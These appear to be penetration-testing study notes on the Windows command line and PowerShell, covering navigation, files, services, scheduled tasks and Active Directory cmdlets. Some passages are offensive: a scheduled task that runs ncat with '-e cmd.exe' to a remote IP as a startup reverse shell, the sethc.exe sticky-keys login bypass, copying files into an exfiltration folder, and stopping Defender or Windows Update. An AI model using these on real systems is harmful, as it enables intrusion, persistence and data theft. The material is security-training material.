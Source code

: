 # Introduction to Windows Command Line
The scope of this module is how to navigate and administer a windows host from the commandline. These notes a written from a penetration testers perspective so the focus will be on reconnaissance, exploitation and exfiltration of data.

While tools exits to make navigating on windows machines easier for linux users, these tools usually leave traces on the host machine of our presence. What we instead can do is to "live of the land" which means using build-in commands and functionality to do our work, instead of relying on outside tools that may expose us.

## Cheat Sheet 
Useful commands will be listed in this table for the ease of use. 

### CMD
| Command | Purpose |
| ------- | --------| 
| dir | print directory |
| help  | displays a list of built-ins  |
| help \<commandName> |dispaly helpul information about the <commandName> |
| cls | clears the command prompt |
| systeminfo | prints information about the system | 
| ipconfig | shows networking information |
| doskey /history | prints a history of used commands | 
| cd | prints current working directory |
| cd \<dir>| change directory to the dir in argument | 
| tree | explore the file system tree with your current working directory as the root | 
| md or mkdir | creates a subdir in the current working directory with the name given in argument 1 |
| rd or rmdir | does the opposite of md and mkdir, it removes the directory specified in argument 1 |
| find "string" | like grep on Linux |
| del or erase | deletion tool | 

## Command Prompt vs Powershell
### Command Prompt
The command prompt was released in 1981 and have a lot of limitation compared to its younger brother "Powershell". Command Prompt does for example not support aliases for its command, it cannot pass command output to a new command.
Commands has to be run one at a time. 
* Output is pure text

### Powershell 
* Can use command aliases.
* cmdlet output can be passed to another cmdlet
* All output is in the form of an object
* Can execute a sequence of commands
* Has an integrated Scripting Enviroment 
* Works on Linux


## Command Prompt Basics
The command prompt binary is called cmd.exe or CMD.exe windows have a casual attitude towards capitalized letters. It is based on the COMMAND.COM interpreter in DOS.

### Access CMD
windows key + r type `cmd`
executing the executable from its path:
`C:\Windows\System32\cmd.exe`

### Basic Usage
Use the command `dir` to look around the the current directory, which should be denoted `C:\Users\<userName>`.   

#### Windows Recovery Trick
When booting from a windows installation disk we can initialize repair mode which launches a command prompt. From here we can overwrite the `sethc.exe` executeable with the `cmd.exe` now when we are at the login  screen we can press **shift** 5 times to open a command prompt with NT 

### Getting Help
When having trobule in the Command Prompt the `help` command is a useful tool with an argument is prints a list of system built-ins commands and gives a short despriction of their purpose. If you call the help command with another built-ins command as the argument it will display helpful information about the built-in command.

Some commands dont have a detailed section for the `help` command, but a reference to their own like `ipconfig` 
```
> help ipconfig

This command is not supported by the help utility. Try "ipconfig /?".
```

### History 
Come on, don't look at a mans CLI history... Well if you have to then use `doskey /history`
It will print a newline terminated list with previous commands regardless of the commands where valid or not. 

#### shortcuts
| key | description | 
| --- | ----------- |
| page up | Place the first command in the history | 
| page down | place the last command in the history | 
| up arrow | scroll one command back in the hisotry | 
| down arrow | scroll one command forward in the history |
| right arrow | Types the previous command one char at a time |
| F3 | retype previous command | 
| F5 | cycle through previous commands | 
| F7 | Opens an interactive list of previous commands |
| F9 | Enter a command to our prompt based on number, number corrosponds to commands in our history |

### Exit a Process
like with linux **ctrl + c** will abort a running process  

## System Navigation
we can use `cd` or `chdir` with arguments to print our current working directory.
To change directory we can add the directory we want to move to, to the 1st argument of `cd` to move there. 

Note that `C:\` is the root directory of a Windows machine. Historically drive A and B were for floppy disk so the thirds drive C was the harddrive. On modern computers there are no longer floppy disk slots but C:\ being the root of the windows system is still the case for legacy reasons.

Like Linux, Windows can also use relative and absolute pathing. Remember to note what drive you are in when using absolute paths. 

Using the `tree` command we can print a comprehensive view of the filesystem tree with our current working directory as the root of the tree.
with the `/F` parameter we can also get the files in the folders with the `tree` command

### Interesting Directories

| Name: |	Location:¨|	Description:|
|--|---|---
%SYSTEMROOT%\Temp |	C:\Windows\Temp |	Global directory containing temporary system files accessible to all users on the system. All users, regardless of authority, are provided full read, write, and execute permissions in this directory. Useful for dropping files as a low-privilege user on the system. |
|%TEMP% |	C:\Users\<user>\AppData\Local\Temp |	Local directory containing a user's temporary files accessible only to the user account that it is attached to. Provides full ownership to the user that owns this folder. Useful when the attacker gains control of a local/domain joined user account.|
| %PUBLIC% |	C:\Users\Public |	Publicly accessible directory allowing any interactive logon account full access to read, write, modify, execute, etc., files and subfolders within the directory. Alternative to the global Windows Temp Directory as it's less likely to be monitored for suspicious activity. |
|%ProgramFiles% |	C:\Program Files |	folder containing all 64-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system. |
|%ProgramFiles(x86)% |	C:\Program Files (x86) |	Folder containing all 32-bit applications installed on the system. Useful for seeing what kind of applications are installed on the target system.|


### Managing Directories
With the command `md <dirName>` we can create a directory. `md` is short for `mkdir` which performs the same operation.

we can remove directories with the `rd` or `rmdir` commands.

Trying to remove a non-empty directory will result in failure however. Unless given the paramter `/S`. 

#### Modify
Directories holds data, other directories, and files which also holds data. Therefore modifying them is a complex task that we let commands do for us:
* Move 
* Robocopy
* xcopy

`move <source> <destination>` like its Linux cousin `mv` we input 1st what we want to move, then as 2nd argument where we want to move it to.

`xcopy <source> <destination>` Like the name implies this command copies the source file to the destination. If given a directory xcopy will copy files and subdirectories however not empty subdirectories unless `/E` is given. xcopy will reset file and dir attributes unles the `/K` switch is passed.

`robocopy`is the successor of xcopy with more options and utilities. 
robocopy can move accross drives and networks while stile maintaining file data, attributes, ownership, ACLs, and any flags set like hidden or read-only.

If a user does not have permission to copy files we can use the `/MIR` switch, this will however mark the files as backup and hide them, which can be prevented with the `/A-:SH`(attribute show hidden). If you dont want to commit to the copy you can use the `/L` to see a preview of the operation without it executing, a good idea if you are not 100% certain of what you are doing. 

example:
`robocopy /E /MIR /A-:SH C:\Users\htb\Desktop\notes\ C:\Users\htb\Documents\Backup\Files-to-exfil\`

### Files
The `more` command displays the content of a file starting from the head until the terminal cannot show more, you can scroll further in the file with enter. Use the switch `/S` to crunch blanks spaces down to a single line.

outputs can be piped to more with the `|` symbol `ipconfig | more`

`openfiles` is an admin command that lets us see what files the users on our host has opened

`type` can display the contents of multiple text files at once. It uses a non locking operation to do so. 

`type` can also direct its output to other files `type secrets.txt >> exposed.txt`

#### Create and modify 
`echo` can be used to print something to the terminal and like on Linux can be used to write and append to a file 

`echo something > text.txt` 

`echo more things >> text.txt`

`fsutil` filesystem utility lets us create a file. 

`fsutil createNew for-sure.txt 222`

`ren` ren(ame) allows the user to rename a file (arg1) to something else (arg2)

#### Input / Output

**<, >, |, &** can be used to direct input and output to and from commands. 

**&&** can be used between two statemenets to run statement a and if it succeeds run b

**||** can be used similiarly but statement b only gets executed if a fails. 

#### Deleting Files
For deletion we can use `del` which also has the alias `erase`.  
```
> help erase
Deletes one or more files.

DEL [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
ERASE [/P] [/F] [/S] [/Q] [/A[[:]attributes]] names
  /P            Prompts for confirmation before deleting each file.
  /F            Force deleting of read-only files.
  /S            Delete specified files from all subdirectories.
  /Q            Quiet mode, do not ask if ok to delete on global wildcard
  /A            Selects files to delete based on attributes
  attributes    R  Read-only files            S  System files
                H  Hidden files               A  Files ready for archiving
                I  Not content indexed Files  L  Reparse Points
                O  Offline files              -  Prefix meaning not
```

#### Copying and moving files
cope and move can be used for these desired operations.
use /v to increase verbosity given you validation after the operation.

## System Information
Now that we have found our feet on a windows host it is time to **Gather System Information.**

In *any* offensive scenario it is important to enumerate the systems which are targeted. This can be done from outside but certainly also from the inside.

What kind of information could be interesting?

* General System Information
* Networking Information
* Basic Domain Information
* User Information

These are not the only types of information that can prove useful, but it does give us an idea of what kind of information that is relevant and what is not. 

**REMEMBER** to stay in scope! Your white hat can easily stain if you forget the scope and stick your nose in data you are not at liberty to see.

### How to get Information
#### The Big One
`systeminfo` I don't even have to tell you what this does, for you to know this might be useful command, right?

* Host-Name
* Operating Systen information
* Hardware Information
* Timezone
* Language(keyboard input, System)
* Hotfixes
* Network Card information

Thats a lot of information. 

#### The Others
`hostname` prints the hostname

`ver` what version of windows the system is running. 

`ipconfig` Network information

`arp /a` Prints the content of the systems Address Resolution Protocol cache 

`whoami` display the username of the user currently logged in. 

`whoami /priv` what are my priviledges

`whoami /groups`what groups am i part of 

`net user` display a list of all users on the host.

`net group` (only works on a windows domain controller) display information about groups on the host

`net localgroup` can be run on any windows host. Display information about groups on the host

`net share` view or create shared resources on the host.

`new view` 

## Finding Files and Directories

* `where` we can use where to find files that we input to it, if they exist in or cwd or paths. `where flag.txt` is a good one for CTF's
  * `where /R <path> <file> ` to find files Recursivly in a directory.
* `find <search-string> <path-to-file>` 
  * /V print any line that does NOT contain the search-string
  * /N print line number with the matched string
  * /I disable case sensitivity
* `findstr`is a grep like command
* `comp` compare files
* `fc` a more comprehensive tool for comparing files
* `sort` sort agr1 can be directed with the output switch /O 
  * `sort /unique` no dublets

## Environment Variables
`%SUPER_IMPORTANT_VARIABLE%` Capital letter with underscore for spacing is a standard, not a requirement for Environment Variables. 

Global vs Local Variables.
* Global: The data can be accessed from anywhere
* Local: The data can only be referenced inside the scope it was declared.

the `%WINDIR%` variable is a global variable that any user can call to get the path to the `Windows` directory.

If user A was to identify a variable like 
```
>set SECRET=FLAG{This_is_it!}
>echo %SECRET%
{This_is_it!}
```
But when i log in as user B
```
>echo %SECRET%
%SECRET%
```

Another type is scoping is the System scope and the user scope.

There is also the more volatile scope that is called the process scope. 

|Scope | 	Description |	Permissions Required to Access |	Registry Location |
| ----| ---- | ---- | ----- |
| System  (Machine) |	The System scope contains environment variables defined by the Operating System (OS) and are accessible globally by all users and accounts that log on to the system. The OS requires these variables to function properly and are loaded upon runtime. |	Local Administrator or Domain Administrator |	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment |
|User |	The User scope contains environment variables defined by the currently active user and are only accessible to them, not other users who can log on to the same system. |	Current Active User, Local Administrator, or Domain Administrator 	| HKEY_CURRENT_USER\Environment |
| Process |	The Process scope contains environment variables that are defined and accessible in the context of the currently running process. Due to their transient nature, their lifetime only lasts for the currently running process in which they were initially defined. They also inherit variables from the System/User Scopes and the parent process that spawns it (only if it is a child process).| 	Current Child Process, Parent Process, or Current Active User |	None (Stored in Process Memory)|

we can use `set` and `echo` to view the data in a variable.

### set and setx
`set` can be used to display, set and remove environment variables, but it only work in the current scope. 

`setx` makes permanent changes to the registry. 

#### Removing Varibales
setting a variable to an empty string is the way to delete them
`setx DCIP ""`

### Important Variables
| Variable Name | 	Description | 
|  --------- |  -------------- | 
| %PATH% | 	Specifies a set of directories(locations) where executable programs are located.| 
| %OS% | 	The current operating system on the user's workstation.| 
| %SYSTEMROOT% | 	Expands to C:\Windows. A system-defined read-only variable containing the Windows system folder. Anything Windows considers important to its core functionality is found here, including important data, core system binaries, and configuration files.| 
| %LOGONSERVER% | 	Provides us with the login server for the currently active user followed by the machine's hostname. We can use this information to know if a machine is joined to a domain or workgroup.| 
| %USERPROFILE% | 	Provides us with the location of the currently active user's home directory. Expands to C:\Users\{username}.| 
| %ProgramFiles% | 	Equivalent of C:\Program Files. This location is where all the programs are installed on an x64 based system.| 
| %ProgramFiles(x86)% | 	Equivalent of C:\Program Files (x86). This location is where all 32-bit programs running under WOW64 are installed. Note that this variable is only accessible on a 64-bit host. It can be used to indicate what kind of host we are interacting with. (x86 vs. x64 architecture) | 

## Managing Services
The service controller program `sc` allows the user to: 
* Determine what services are running
* Modify existing services
* disable/ enable running services

`sc` works by giving it queries. We can query it by:
* process state
* process id
* service type

`sc query type= service` lists all running services ( Notice the space between `=` and "service" syntax wise this space is not optional! )

`sc query windefend` displays windefend also known as Windows Defender.

`sc stop windefend` stops the specified process, might require admin priviledges or even System.

`sc start windefend` starts the specified process, might require admin priviledges

we can also configure services with sc:
`sc config wuauserv start= disabled` we have now disabled this service (windows update) so it cant start.

if someone tries 
```
sc start wuauserv
[SC] StartService FAILED 1058:

The service cannot be started, either because it is disabled or because it has no enabled devices associated with it.
``` 
This can be very useful if the host you are doing this on is running outdated software, which you intend to exploit.

you can undo the disabled command with a new start type `start= auto`

Remember to be careful. Disabling services is bound to be monitorized by a good blue team especially the essential services that comes with Windows. 

### Tasklist
`tasklist` can be used to print all running processe to the terminal. pipe with `| find "something"` to filter.
use the `/svc` switch to only list running services.


### Net Start
`net start` list all running services on our system. `net stop` `net pause` `net continue` are also valid commands with `net`.

### WMIC 
The Windows Management Instrumental Command is a big CLI executable with a lot of features. 
`wmic service list brief`
(This tool is however deprecated)

## Working with Scheduled Tasks
Scheduled Tasks is as the name implies: command(s) that are set to run in an automated frequency. 

These are great for automating maintainance on a system.
* Deleting old log files
* Taking backups 
* Health Checks

But they can also be used for malicious activities. Like persistance on a system. 

### Triggers That Can Kick Off a Scheduled Task
* When a specific system event occurs.
* At a specific time.
* At a specific time on a daily schedule.
* At a specific time on a weekly schedule.
* At a specific time on a monthly schedule.
* At a specific time on a monthly day-of-week schedule.
* When the computer enters an idle state.
* When the task is registered.
* When the system is booted.
* When a user logs on.
* When a Terminal Server session changes state.

### How to Utilize Scheduled Tasks 
`schtasks` 

### Query Syntax
| Action | 	Parameter |	Description |
| ----- | --------- |------------- |
|Query 	|	|Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.|
|	|/fo 	|Sets formatting options. We can specify to show results in the Table, List, or CSV output.|
||	/v 	|Sets verbosity to on, displaying the advanced properties set in displayed tasks when used with the List or CSV output parameter.|
||	/nh 	|Simplifies the output using the Table or CSV output format. This switch removes the column headers.|
||	/s 	|Sets the DNS name or IP address of the host we want to connect to. Localhost is the default specified. If /s is utilized, we are connecting to a remote host and must format it as "\\\host".|
||	/u 	|This switch will tell schtasks to run the following command with the permission set of the user specified.|
||	/p 	|Sets the password in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The u and p values are only valid when used with the s parameter.|

`SCHTASKS /Query /V /FO list` this command can be run with 

### Create Syntax
|Action |	Parameter |	Description |
| ----- | ------- | ---------- |
|Create |	|	Schedules a task to run.|
||	/sc |	Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.|
||	/tn |	Sets the name for the task we are building. Each task must have a unique name.|
||	/tr |	Sets the trigger and task that should be run. This can be an executable, script, or batch file.|
||	/s 	|Specify the host to run on, much like in Query.|
||	/u 	|Specifies the local user or domain user to utilize |
||	/p 	|Sets the Password of the user-specified.|
||	/mo |	Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day. |
||	/rl |	Allows us to limit the privileges of the task. Options here are limited access and Highest. Limited is the default value.|
||	/z |	Will set the task to be deleted after completion of its actions.|

Example:

`schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100 -e cmd.exe"` This scheduled task will triger on startup, be called "My Secret Task" and run ncat.exe with 172.16.1.100 (ip) and 8100 (port).

### Change Syntax
|Action |	Parameter |	Description|
|----- |	----- |	-----|
|Change| |		Allows for modifying existing scheduled tasks.|
||	/tn |	Designates the task to change|
||	/tr |	Modifies the program or action that the task runs.|
||	/ENABLE |	Change the state of the task to Enabled.|
||	/DISABLE |	Change the state of the task to Disabled.|

### Delete Syntax
|Action |	Parameter |	Description|
|------|---------|----------|
|Delete|| 		Remove a task from the schedule|
||	/tn| 	Identifies the task to delete.|
||	/s 	|Specifies the name or IP address to delete the task from.|
||	/u 	|Specifies the user to run the task as.|
||	/p 	|Specifies the password to run the task as.|
||	/f 	|Stops the confirmation warning.|


# CMD vs PowerShell
Up until now we have looked at the built-in windows command line cmd.exe. From now we will be looking at it successor PowerShell.

| Feature |	CMD |	PowerShell |
| ------ |------ |-----------|
|Language |	Batch and basic CMD commands only. |	PowerShell can interpret Batch, CMD, PS cmdlets, and aliases.|
|Command utilization |	The output from one command cannot be passed into another directly. |	The output from one command can be passed into another directly.|
|Command Output |	Text only |	PowerShell outputs in object formatting.|
|Parallel Execution |	CMD must finish one command before running another. |	PowerShell can multi-thread commands to run in parallel.|

PowerShell can be used to accomplish many task, among them:
*  Provisioning servers and installing server roles
*  Creating Active Directory user accounts for new employees
*  Managing Active Directory group permissions
*  Disabling and deleting Active Directory user accounts
*  Managing file share permissions
*  Interacting with Azure AD and Azure VMs
*  Creating, deleting, and monitoring directories & files
*  Gathering information about workstations and servers
*  Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)

Powershell can be used from a terminal or Microsofts "IDE" Windows PowerShell Integrated Scripting Enviroment (ISE). 

## Prompt
Powershell commands use the `verb-noun` naming convention as you will see here.

`Get-Help` to get help with a cmdlet. 
the switch `-Online` can be used to source the help from the online repository instead of the local, ensuring the most up to date help.

`Update-Help` can be used to update the local `Get-Help` repository. 

### Navigating 
`Get-Location` print curret working directory.

`Get-ChildItem` Print items inside your current working directory.

`Set-Location` change directory works with both absolute and relative paths

`Get-Content` reads the content of a file.

`Get-Command` Can be used to find cmdlets to can remember the name of. 
  * `Get-Command -verb get`
  * `Get-Command -noun windows*`

So now we know how to `Get-Help`, `Get-Command`,`Get-Content`, `Get-Childitem` and how to `Set-Location`.

`Get-History` can be used to get a list of your previous commands, along with an ID
using `r <id>` you can rerun the command with the id provided. 

`Clear-Host` can clear the terminal. Aliases: `cls` `clear`

#### Hotkeys
|HotKey |	Description |
| ------- |--------- |
|CTRL+R |	It makes for a searchable history. We can start typing after, and it will show us results that match previous commands.|
|CTRL+L |	Quick screen clear.|
|CTRL+ALT+Shift+? |	This will print the entire list of keyboard shortcuts PowerShell will recognize.
Escape 	When typing into the CLI, if you wish to clear the entire line, instead of holding backspace, you can just hit escape, which will erase the line. |
|↑ |	Scroll up through our previous history.|
|↓ |	Scroll down through our previous history.|
|F7 |	Brings up a TUI with a scrollable interactive history from our session.|


### Aliases
PowerShell has alot of builtin aliases to make the transition from bash or cmd to PowerShell easier.

Aliases can be viewed with the `Get-Alias` cmdlet or its alias `gal`.

Set can also set aliases with `Set-Alias`. Here is an example of how it works:

`Set-Alias -Name gh -Value Get-Help` 

#### Helpful Aliases
You might recognize some of these builtin aliases from bash:
| Alias |	Description |
| ----- |------------ |
|pwd 	|gl can also be used. This alias can be used in place of Get-Location.|
|ls 	|dir and gci can also be used in place of ls. This is an alias for Get-ChildItem.|
|cd 	|sl and chdir can be used in place of cd. This is an alias for Set-Location.|
|cat 	|type and gc can also be used. This is an alias for Get-Content.|
|clear |	Can be used in place of Clear-Host.|
|curl 	|Curl is an alias for Invoke-WebRequest, which can be used to download files. wget can also be used.|
|fl and ft |	These aliases can be used to format output into list and table outputs.|
|man 	|Can be used in place of help.|


# CMDlets and Modules

## Cmdlets

Microsoft defines a cmdlet as: 
"a single-feature command that manipulates objects in PowerShell."

As mentioned earlier a cmdlet follow the Verb-Noun naming convention. 

cmdlets are not written in PowerShell but in C# or another compiled language. 

## PowerShell Modules
A module is structured PowerShell code, that is made easy to use and share. A module can consist of the following: 

* Cmdlets
* Script files
* Functions
* Assemblies
* Related resources (manifests and help files)

### Using PowerShell Modules
`Get-Module` will print a list of modules already loaded.

`Get-Module -ListAvailable` will list installed modules that have not yet been loaded.

`Import-Module` allows the user to add a module to the current session.

`Get-ExecutionPolicy` displays the execution policy use use`-list` to se the different scopes.

`Set-ExecutionPolicy` change the execution policy use `-scope Process` to limit it to the current powershell session.

`Get-Command -Module <moduleName>`  

### PowerShell Gallery and GitHub
Using the PowerShell Gallery or GitHub repositories you can find all sorts of modules you can use to enchance or tweak the PowerShell CLI to best match your needs.

With the builtin module PowerShellGet we can usee the command `Find-Module -Name <cmdname>` we can search for modules we want.
And with the pipe `|` symbol we can pipe the module into `Install-Module` to install it. 


# User and Group Management
User and group management is an integral part of a system administrator job. It is also typically an organizations biggest attack surface.  

## User Accounts
There are many accounts on a system which use different parts of the system. The types of accounts are:
* Service Accounts
* Built-in Accounts
* Local Users
* Domain Users

### Default Local User accout
| Account | Description | 
| -------- |---------- |
| Administrator | This account is used to accomplish administrative tasks on the local host. |
| Default Account | The Default Account is used by the system for running multi-user auth apps like the Xbox utility |
| Guest Account | This account is a limited rights account that allows users without a normal user account to access the host. It is disabled by default and should stay that way.|
| WDAGUtility Account | This account is in place for the Defender Application Guard, which can sandbox application sessions |

## Active Directory
Active Directory is a way to manage all computers in a domain from a central administration tool called the "Domain Controller"(DC). This way if user "Mike" needs his password reset. We do not have to go to the local user Mike in our entire organization (which theoritically could be a global organization). And manually reset the "Mike" user on each PC. 

### Local vs Domain Joined Users
Local users on a host is a user who has access to a subset of the resources on a host and has no special priviledges beyond the host. 

A domain User is a user who is recognized by all hosts and resources that adheer to the Domain Controller. This way even if user A has never logged into host B his password will still recognize the login credentials. This doesnt mean User A is given access since host B might be restricted to only special group members with priviledge. 

###  User Groups
User Groups are a way to granulate access to users in a standadized way. The logic is that a user can belong to many groups and a group can have many members. But this begs the question what does a group do for its members? Simple it grants access.

Using the example from before lets say that host B only allows logon for users who are part of group "admins-of-host-B", if we were to add User A to the group "admins-of-host-B" he would now be able to logon to host B. 

#### Add Remove Edit Users and Groups

* `Get-LocalGroup`
* `Get-LocalUser`
* `New-LocalUser -Name "name"`
* `Set-LocalUser`
* `$Password = Read-Host -AsSecureString`
* `Add-LocalGroupMember -Group "Remote Desktop Users" -Member "JLawrence"`
* `Get-LocalGroupMember -Name "Remote Desktop Users"`

By now the commands above should give you an idea of their intended use. 

### Manage Domain Users and Groups
Having the Remote System Administration Tools installed is a requirement to manage ActiveDirectory with PowerShell (atleast its the only official tool).

`Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online`

This will install all RSAT features. Confirm ActiveDirectory tools are installed:

`Get-Module -Name ActiveDirectory -ListAvailable`
#### PowerShell cmdlets

`Get-ADUser -Filter *`

This command will give us a several piece of information about the users in a domain:

* Object Class: which specifies if the object is a user, computer, or another type of object.
* DistinguishedName: Specifies the object's relative path within the AD schema.
* Enabled: Tells us if the user is active and can log in.
* SamAccountName: The representation of the username used to log into the ActiveDirectory hosts.
* ObjectGUID: Is the unique identifier of the user object.

example:
```
PS C:\htb>  Get-ADUser -Identity TSilver


DistinguishedName : CN=TSilver,CN=Users,DC=greenhorn,DC=corp
Enabled           : True
GivenName         :
Name              : TSilver
ObjectClass       : user
ObjectGUID        : a19a6c8a-000a-4cbf-aa14-0c7fca643c37
SamAccountName    : TSilver
SID               : S-1-5-21-1480833693-1324064541-2711030367-1602
Surname           :
UserPrincipalName :
```

We can also search on attributes:

`Get-ADUser -Filter {EmailAddress -like '*evil.corp'}`

[Link](https://learn.microsoft.com/en-us/archive/technet-wiki/12037.active-directory-get-aduser-default-and-extended-properties)

Now lets create a domain user!

`New-ADUser -Name "MTanaka" -Surname "Tanaka" -GivenName "Mori" -Office "Security" -OtherAttributes @{'title'="Sensei";'mail'="MTanaka@greenhorn.corp"} -Accountpassword (Read-Host -AsSecureString "AccountPassword") -Enabled $true `

Next i would like to validate 

```
Get-ADUser -Identity MTanaka -Properties * | Format-Table Name,Enabled,GivenName,Surname,Title,Office,Mail

Name    Enabled GivenName Surname Title  Office   Mail
----    ------- --------- ------- -----  ------   ----
MTanaka  True    Mori      Tanaka  Sensei Security MTanaka@greenhorn.corp
```
Here is a rundown on the different switches used:

* New-ADUser -Name "MTanaka" : We issue the New-ADUser command and set the user's SamAccountName to MTanaka.
* -Surname "Tanaka" -GivenName "Mori": This portion sets our user's Lastname and Firstname.
* -Office "Security": Sets the extended property of Office to Security.
* -OtherAttributes @{'title'="Sensei";'mail'="MTanaka@greenhorn.corp"}: Here we set other extended attributes such as title and Email-Address.
* -Accountpassword (Read-Host -AsSecureString "AccountPassword"): With this portion, we set the user's password by having the shell prompt us to enter a new password. (we can see it in the line below with the stars)
* -Enabled $true: We are enabling the account for use. The user could not log in if this was set to \$False

We can also edit the domain user if we messed something up.

`Set-ADUser -Identity MTanaka -Description " Sensei to Security Analyst's Rocky, Colt, and Tum-Tum"`

## Working with Files and Directories
### Common Commands Used for File & Folder Management
| Command |	Alias |	Description |
| -------- |---- |------------- |
|Get-Item | 	gi | 	Retrieve an object (could be a file, folder, registry object, etc.) |
|Get-ChildItem | 	ls / dir / gci | 	Lists out the content of a folder or registry hive. |
|New-Item |	md / mkdir / ni |	Create new objects. ( can be files, folders, symlinks, registry entries, and more)|
|Set-Item |	si 	|Modify the property values of an object.|
|Copy-Item | 	copy / cp / ci |	Make a duplicate of the item.|
|Rename-Item| 	ren / rni |	Changes the object name.|
|Remove-Item |	rm / del / rmdir |	Deletes the object.|
|Get-Content |	cat / type |	Displays the content within a file or object.|
|Add-Content |	ac |	Append content to a file.|
|Set-Content |	sc |	overwrite any content in a file with new data.|
|Clear-Content |	clc |	Clear the content of the files without deleting the file itself.|
|Compare-Object |	diff / compare |	Compare two or more objects against each other. This includes the object itself and the content within.|

#### Combining with pipes

`get-childitem -Path *.txt | rename-item -NewName {$_.name -replace ".txt",".md"}`

This command pipes all items with the suffix `.txt` into the `rename-item` command preserving the name with `$_.name` and only replacing the .txt part with .md.
A useful command for bulk work. 

### File and Directory Permissions
* Full Control
* Modify 
* List Folder Contents
* Read and Execute
* Write 
* Read
* Traverse Folder 

By default inheritance from permission on a parent folder is granted to all its children. However this default behavior can be disabled allowing 

## Finding and Filtering Content
Remember earlier when we touched on the fact that PowerShell unlike cmd.exe utilize objects over plain text return type? 

Unlike bash and cmd.exe eveything in PowerShell is an object. But what is an object? 

Well an object is an instance of a class, which is like a schema of how an object from the class is supposed to look. 

Lets take a simple example
```
Class Person:
  string fullName;
  date birthday;
  string gender;
  int height;
  int weight;
```
Here i mocked up how the class "Person" could look. If we fill out the given variables we would have a person object like `("Harry James Potter, 31-07-1980, male, 180, 80")`

Now a class can also have assosiated methods its ways we can interact with an object to be given more or less information about it or maybe we want the information formatted in a specific way. 

Lets leave Harry (and the metaphor) in the Cupboard my fellow muggles and return to PowerShell.
###
`Get-LocalUser administrator | get-member`
```
   TypeName: Microsoft.PowerShell.Commands.LocalUser

Name                   MemberType Definition
----                   ---------- ----------
Clone                  Method     Microsoft.PowerShell.Commands.LocalUser Clone()
Equals                 Method     bool Equals(System.Object obj)
GetHashCode            Method     int GetHashCode()
GetType                Method     type GetType()
ToString               Method     string ToString()
AccountExpires         Property   System.Nullable[datetime] AccountExpires {get;set;}
Description            Property   string Description {get;set;}
Enabled                Property   bool Enabled {get;set;}
FullName               Property   string FullName {get;set;}
LastLogon              Property   System.Nullable[datetime] LastLogon {get;set;}
Name                   Property   string Name {get;set;}
ObjectClass            Property   string ObjectClass {get;set;}
PasswordChangeableDate Property   System.Nullable[datetime] PasswordChangeableDate {get;set;}
PasswordExpires        Property   System.Nullable[datetime] PasswordExpires {get;set;}
PasswordLastSet        Property   System.Nullable[datetime] PasswordLastSet {get;set;}
PasswordRequired       Property   bool PasswordRequired {get;set;}
PrincipalSource        Property   System.Nullable[Microsoft.PowerShell.Commands.PrincipalSource] PrincipalSource {ge...
SID                    Property   System.Security.Principal.SecurityIdentifier SID {get;set;}
UserMayChangePassword  Property   bool UserMayChangePassword {get;set;}
```
### Property Output (All)

`PS C:\htb> Get-LocalUser administrator | Select-Object -Property *`
```
AccountExpires         :
Description            : Built-in account for administering the computer/domain
Enabled                : False
FullName               :
PasswordChangeableDate :
PasswordExpires        :
UserMayChangePassword  : True
PasswordRequired       : True
PasswordLastSet        :
LastLogon              : 1/20/2021 5:39:14 PM
Name                   : Administrator
SID                    : S-1-5-21-3916821513-3027319641-390562114-500
PrincipalSource        : Local
ObjectClass            : User
```
In the lines of output we can see the name of all the properties of the localUser object. This is very helpful if you forgot and haven't interacted with an object
### Filter on Properties
`Get-LocalUser * | Select-Object -Property Name,PasswordLastSet`
```
Name               PasswordLastSet
----               ---------------
Administrator
DefaultAccount
Guest
MTanaka              1/27/2021 2:39:55 PM
WDAGUtilityAccount 1/18/2021 7:40:22 AM
```

### Sorting and Grouping 
`Get-LocalUser * | Sort-Object -Property Name | Group-Object -property Enabled`

```
Count Name                      Group
----- ----                      -----
    4 False                     {Administrator, DefaultAccount, Guest, WDAGUtilityAccount}
